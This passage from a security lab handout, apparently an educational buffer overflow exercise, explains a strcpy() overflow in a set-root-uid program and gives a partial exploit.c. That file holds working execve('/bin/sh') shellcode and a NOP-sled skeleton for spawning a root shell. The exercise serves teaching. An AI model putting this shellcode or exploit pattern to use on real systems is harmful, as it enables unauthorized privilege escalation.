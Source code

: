 The above program has a buffer overflow vulnerability. It first reads an input from a file called "badfile", and then passes this input to another buffer in the function `bof()`. The original input can have a maximum length of 517 bytes, but the buffer in `bof()` has only 12 bytes long. Because `strcpy()` does not check boundaries, buffer overflow will occur. Since this program is a set-root-uid program, if a normal user can exploit this buffer overflow vulnerability, the normal user might be able to get a root shell. It should be noted that the program gets its input from a file called "badfile". This file is under users’ control. Now, our objective is to create the contents for "badfile", such that when the vulnerable program copies the contents into its buffer, a root shell can be spawned.

### Task 1: Exploiting the Vulnerability
We provide you with a partially completed exploit code called "exploit.c". The goal of this code is to construct contents for "badfile". In the code, the shellcode is given to you. You need to develop the rest.
```c
/* exploit.c  */

/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[]=
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */
    /* strcpy(buffer,"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x??\x??\x??\x??"); */
    /*strcpy(buffer+100,shellcode); */

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```
